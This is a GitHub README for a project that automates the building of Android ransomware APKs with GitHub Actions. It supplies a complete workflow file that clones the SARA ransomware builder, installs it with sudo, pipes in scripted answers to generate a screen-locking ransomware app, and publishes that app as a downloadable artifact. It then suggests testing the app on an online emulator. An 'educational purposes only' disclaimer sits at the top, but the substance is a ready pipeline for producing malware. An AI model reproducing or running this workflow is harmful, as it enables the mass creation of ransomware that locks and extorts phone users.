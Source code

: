 # GitHub-Actions-Ransomware-APK

This repository provides an automated solution for creating Ransomware APKs using GitHub Actions. This setup leverages the power of CI/CD to build and deploy APK files for educational and research purposes. 

> **Warning:** This project is intended for educational purposes only. Misuse of ransomware can lead to legal consequences.

## Table of Contents
- Prerequisites
- Repository Structure
- Setting Up GitHub Actions
- Workflow Configuration
- Downloading the APK
- Testing APKs Online
- Ethical Considerations
- License

## Prerequisites
- An Android project hosted on GitHub.
- Basic knowledge of Git and GitHub.
- Familiarity with Android development and APK creation.

## Repository Structure
Ensure your repository has the following structure:

    .github/workflows/main.yml


## Setting Up GitHub Actions
1. **Create the necessary directories**:
   - In the root of your repository, create a directory named `.github`.
   - Inside `.github`, create another directory named `workflows`.

2. **Create the workflow file**:
   - Inside the `workflows` directory, create a file named `main.yml`.

## Workflow Configuration
Edit the `build.yml` file with the following configuration:

```yaml
name: Run SARA Installation and Customize Screen Ransomware

on:
  push:
    branches:
      - main
  pull_request:
    branches:
      - main

jobs:
  install-sara:
    runs-on: ubuntu-latest

    steps:
    - name: Checkout code
      uses: actions/checkout@v2

    - name: Install dependencies and run SARA with custom config
      run: |
        # Clone the SARA repository
        git clone https://github.com/termuxhackers-id/SARA
        cd SARA
        # Install dependencies
        sudo bash install.sh
        # Automatically select option 3 and fill in custom configuration
        echo -e "3\nmiss\nswati\nhellow word\nrobot.png\n12345678\n2" | python3 sara.py || true
        
        # Check if miss.apk was created
        if [ ! -f miss.apk ]; then
          echo "Error: miss.apk was not created."
          exit 1
        fi
        echo "APK created successfully."

    - name: List files for debugging
      run: |
        echo "Current directory contents:"
        ls -la ./SARA  # Adjust if necessary to show the correct directory

    - name: Upload APK as artifact
      if: success()  # Only upload if previous steps succeeded
      uses: actions/upload-artifact@v3
      with:
        name: miss.apk
        path: ./SARA/miss.apk  # Ensure this is the correct path to the APK
        retention-days: 1  # Keep the artifact for 1 day
      continue-on-error: true  # Ignore the upload error if it occurs

    - name: Clean up old artifacts (optional)
      run: |
        echo "This step can be used to clean up old artifacts if needed."
  ```

# Downloading the APK

After pushing changes to your repository:

  Navigate to the Actions tab in GitHub.
  Select the latest workflow run.
  In the Artifacts section, you’ll find the uploaded APK. Click to download it.


## Testing APKs Online
To avoid testing APKs directly on your phone, you can use online testing platforms. Once you've , you can upload it to services like [Uptoplay](https://www.uptoplay.net/media/system/ext/intro-androidemulator.php) for testing your APK files online.









